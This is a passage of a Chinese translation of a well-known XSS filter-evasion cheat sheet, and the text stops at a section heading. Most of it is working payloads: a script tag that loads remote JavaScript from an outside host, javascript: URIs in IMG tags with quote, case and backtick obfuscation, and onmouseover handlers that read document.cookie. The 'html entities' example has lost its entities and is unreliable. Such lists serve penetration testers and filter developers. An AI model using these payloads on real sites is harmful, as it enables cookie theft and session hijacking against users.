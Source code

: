 这是一个常规的 xss 注入代码，虽然通常它会被防御，但是我们建议首先去尝试它。（引号是不被需要的在任何现代浏览器中，因此这里省略了它。）

```
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
```

## 通过 javascript 指令实现的图片 xss

图片 xss 依靠 javascript 指令实现。（IE7.0 不支持 javascript 指令在图片上下文中，但是可以在其他上下文触发。下面的例子仅仅展示了一种其他标签依旧通用的原理。）

```
<IMG SRC="javascript:alert('XSS');">
```

## 无引号无分号

```
<IMG SRC=javascript:alert('XSS')>
```

## 不区分大小写的 xss 攻击向量

```
<IMG SRC=JaVaScRiPt:alert('XSS')>
```

## html 实体

The semicolons are required for this to work:

```
<IMG SRC=javascript:alert("XSS")>
```

## 重音符混淆

如果你的 javascript 代码中需要同时使用单引号和双引号，那么可以使用重音符（`）来包裹 javascript 代码。它也经常会非常有用因为 xss 过滤代码未考虑到这个字符。

```
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
```

## 畸形的 A 标签

跳过 href 属性，而直接获取 xss 实质攻击代码... 提出被 David Cross ~ 已验证在 chrome 浏览器

```
<a onmouseover="alert(document.cookie)">xxs link</a>
```

此外，chrome 浏览器喜欢去不全确实的引号为你。如果你遇到阻碍那么直接省略它们吧，chrome 将会正确的帮你不全缺失的引号在 URL 和 script 中。

```
<a onmouseover=alert(document.cookie)>xxs link</a>
```

## 畸形的 IMG 标签

